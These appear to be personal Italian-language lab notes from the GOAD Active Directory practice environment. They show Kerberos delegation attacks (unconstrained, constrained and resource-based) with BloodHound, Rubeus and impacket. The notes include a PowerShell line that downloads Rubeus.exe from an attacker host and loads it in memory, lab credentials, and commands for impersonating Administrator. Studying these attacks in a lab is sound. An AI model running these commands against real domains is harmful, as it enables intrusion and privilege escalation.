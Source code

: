### **UNCOSTRAINED DELEGATIONS**

Per trovarle all'interno di BloodHound puoi selezionare la query precompilata o lanciare la seguente
```
MATCH (c {unconstraineddelegation:true}) return c
```
![[Pasted image 20230911104551.png]]
Per exploitarla accediamo al pc con uno degli account ottenuti precedentemente
```bash
xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor!' /v:192.168.56.11 /cert-ignore
```
e bypassiamo l'amsi come abbiamo già fatto
Poi avviamo Rubeus sulla macchina
```Powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.6:8080/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);
[Rubeus.Program]::MainString("triage");
```
![[Pasted image 20230911105711.png]]
[GOAD - part 10 - Delegations | Mayfly (mayfly277.github.io)](https://mayfly277.github.io/posts/GOADv2-pwning-part10/)
Il resto dell'attacco non posso farlo perchè non mi funziona rubeus
### **CONSTRAINED DELEGATION**
Puoi trovare tutte le constrained delegation con impacket
```bash
impacket-findDelegation NORTH.SEVENKINGDOMS.LOCAL/arya.stark:Needle -target-domain north.sevenkingdoms.local
```
![[Pasted image 20230911111407.png]]
*Con protocol transition*

Per exploitarlo isogna prima chiedere un TGT per l'utente e poi esguire S4U2Self seguito d S4U2Proxy per impersonare un admin
```bash
impacket-getST -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```
![[Pasted image 20230911111655.png]]
Puoi loggare dopo con wmixec

### **Resource Based Constrained Delegation**
Può essere abusato modificando msDS-AllowedToActOnBehalfOfOtherIdentity.
Per esempio può essere effettuato quando hai genericAll o genericWrite ACl su un computer
![[Pasted image 20230911114240.png]]
Creiamo un computer X
```bash
impacket-addcomputer -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/stannis.baratheon:Drag0nst0ne'
```
```
rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
```